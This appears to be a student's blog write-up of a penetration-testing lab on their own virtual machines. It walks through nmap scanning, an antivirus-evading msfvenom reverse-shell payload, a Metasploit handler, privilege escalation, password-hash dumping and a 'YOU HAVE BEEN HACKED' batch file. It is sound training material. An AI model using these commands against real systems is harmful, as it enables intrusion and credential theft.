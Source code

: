 ```yaml
---
title: "System Hacking"
layout: post
---
```

Summary:
  1. Extracting Administrative password hashes
  2. Hiding files and extracting hidden files
  3. Creating a payload to leverage Windows exploit
  4. Privilege escalation
  5. Modifying the file system and uploading files

To begin this exercise I logged into the root account of a Kali Linux virtual machine and logged into an administrator account of a Windows OS virtual machine which will be the target. 

Once both VMs are running, I ensure that both VMs are on the same network by checking the ethernet connections. Then, I launched the nmap application which appeared as a command line and began scanning for targets with the command:

  - nmap -sP 192.168.0.0/24

Once I have determined the target IP address, I then attempted to enumerate the target to learn which services are running and which ports are open by performing a SYN scan with the command:

  - nmap -sSV -O 192.168.0.20

This resulted in five ports being opened, services identified, service info, and the versions. These were:

  PORT    STATE  SERVICE         VERSION
135/tcp   open   msrpc           Microsoft Windows RPC
139/tcp   open   netbios-ssn     Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?  
2179/tcp  open   vmrdp?
3389/tcp  open   ms-wbt-server   Micosoft Terminal Services

Service Info: OS: Windows; CPE: cpe:/o: microsoft:windows

Next, I continued by launching MetaSploit by entering the command:

  - sudo msfconsole

and searched for a specific exploit by entering the command:

  - search windows/meterpreter/reverse_tcp

and set the payload by entering the command:

  - set payload windows/meterpreter/reverse_tcp

Next, I began to configure a web server and prepare the exploit. To start I entered the commands:

  - systemctl start apache2
  - systemctl status apache2

This started the service and showed me that it is active and running.

Then, by default the apache server will not allow access to the resources located at /var/www/html so I removed this file by entering:

  - rm /var/www/html/index.html

Before running the exploit, I realized that I needed to create a directory to store the malicious file. To do this I entered the command:

  - mkdir /var/www/html/exercise

Next, I began creating the payload for the target machine by entering the command:

  - msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' LHOST=192.168.0.2 LPORT=4444 -f exe > /var/www/html/exercise/exploit.exe

This command indicates what payload we will use, holds an encoder I used to help prevent antivirus from detecting the program, removes bad characters from the payload to help evade intrusion detection systems, and the IP address of the Kali system and the port that I listened on. 

![image](https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/a79e3e39-ef78-4fe0-b917-d16f79c50142)

Next, I switched to the Windows VM and downloaded the file by entering the provided IP address into the address bar and opening the previously created exercise file and downloading exploit.exe.

Once the download is complete I switched back to the Kali Linux VM so I could start the listener. I once again launched MetaSploit with sudo msfconsole and entered the command:

  - use exploit/multi/handler

Then I set the payload with the command:

  - set payload windows/meterpreter/reverse_tcp

and set the LHOST by entering the command:

  - set LHOST 192.168.0.2

Now that the listener is set up, I started to listen by entering the command: 

  - exploit -j -z

Once the exploit is completed, I switched back to the Windows VM and executed the exploit.exe file.

Switching back to the Kali VM, I could see the changes as the Meterpreter session is now open and I could see the IP addresses of both systems.

I began by entering the command:

  - sysinfo

and I was able to gather information such as the NetBIOS name, the OS version, the Domain, and the number of Logged on Users.

I then ran the command:

 - ifconfig

which allowed me to see the MAC address, and the IPv4 and IPv6 addresses along with their subnets.

<img width="260" alt="image" src="https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/d33e4489-6102-428f-83e2-38d60a9a98be">

I then attempted to find out whose user account I was using by entering the commands:

  - getuid
  - getsystem
  - getuid

which allowed me to use the SYSTEM account.

From here I entered the command:

  - run hashdump

which provided me with the password hashes.

<img width="410" alt="image" src="https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/71e3f48c-91c4-40b0-997f-546b01dc5b0f">

At this point, I am able to create, upload, and execute a bash file to the target machine.

To begin, I entered the command:

  - touch hacked.cmd
  - vim hacked.cmd

I then modified the created file by entering:

@echo off

dir /s c:\users\*.*

echo YOU HAVE BEEN HACKED

pause


This displays the phrase YOU HAVE BEEN HACKED in the command prompt without the window closing automatically on the target system.

I then left the note to the victim system by entering the command:

  - upload hacked.cmd C:\\users\\administrator\\downloads

which succesfully uploaded the file to the target system.

I then executed the batch file by entering the command:

  - execute -f hacked.cmd

When I switched back to the Window OS the file was received and the message appeared when a command prompt was opened showing a list of files from the path I specified. 








